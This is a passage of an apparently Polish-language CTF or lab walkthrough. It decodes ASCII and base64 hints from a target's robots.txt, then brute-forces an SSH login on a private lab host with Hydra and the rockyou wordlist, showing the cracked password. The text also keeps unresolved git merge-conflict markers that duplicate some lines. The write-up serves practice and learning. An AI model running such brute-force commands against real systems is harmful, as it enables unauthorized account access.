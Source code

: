 ```
#111
#117
#46
#116
#120
#116
-->
```
<<<<<<< HEAD
Zamieńmy skryptem to na przysępny tekst:
=======
Zamieńmy to na przysępny tekst
>>>>>>> 22aa6df571f3a51b2e5da16a61fbb4e6e8c44934
```bash
#!/bin/bash

tablica=(115 101 32 114 111 99 107 121 111 117 46 116 120 116)

for i in ${tablica[@]}; do
#echo $i
str1=$(printf "%x" $i)
string=$string""$str1
done

echo $string -n | xxd -r -p
```
Wychodzi **se rockyou.txt**. 

<<<<<<< HEAD
Został nam do zdekodowania ciąg **c3NoLWJydXRlZm9yY2Utc3Vkb2l0Cg==**, który jest w **robots.txt**. Tam zaś jest zakodowany ciąg w base64. Po zdekodowaniu otrzymujemy **ssh-bruteforce-sudoit**
=======
Zostało nam **robots.txt**. Tam zaś jest zakodowany ciąg w base64
**c3NoLWJydXRlZm9yY2Utc3Vkb2l0Cg==**
Po zdekodowaniu otrzymujemy **ssh-bruteforce-sudoit**
>>>>>>> 22aa6df571f3a51b2e5da16a61fbb4e6e8c44934
```bash
echo -n c3NoLWJydXRlZm9yY2Utc3Vkb2l0Cg== | base64 -d
```
Podsumowując mamy:
```
uname : test
se rockyou.txt
ssh-bruteforce-sudoit
```
Żeby się dostać na serwer ssh musimy użyć metody siłowej, używając słownika rockyou.txt. Do tego bardzo dobrze nadaje się Hydra. Przyznam, że na początku zmyliło mnie te początkowe **se**. Ustawiłem szukanie metodą siłową słowa zaczynające się od **se**, jednak nic to nie dało. W parametrach Hydry ustawiłem więcej wątków niż jest standardowo, aby skanowanie przebiegało szybciej.
{: .text-justify}
```bash
hydra -t 64 -l test -P /usr/share/wordlists/rockyou.txt ssh://172.16.1.167:7223 -V -I -f
[7223][ssh] host: 172.16.1.167   login: test   password: jordan23
```
